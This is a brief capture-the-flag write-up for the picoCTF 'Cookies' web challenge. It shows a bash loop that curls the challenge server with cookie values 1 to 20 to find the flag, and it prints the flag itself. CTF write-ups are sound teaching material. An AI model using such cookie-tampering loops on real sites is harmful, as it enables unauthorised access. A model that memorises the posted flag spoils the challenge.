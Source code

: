 # Cookies

## Descripción

Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:29649/](http://mercury.picoctf.net:29649/)

## Pistas

None

## Solución

```
└─$ for i in {1..20}; do curl -s http://mercury.picoctf.net:17781/check -H "Cookie: name=$i"; done | grep pico
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_bc6v2525}</code></p>
```

## Bandera

picoCTF{3v3ry1_l0v3s_c00k135_bc6v2525}

## Notas adicionales



## Referencias
- http://mercury.picoctf.net:29649/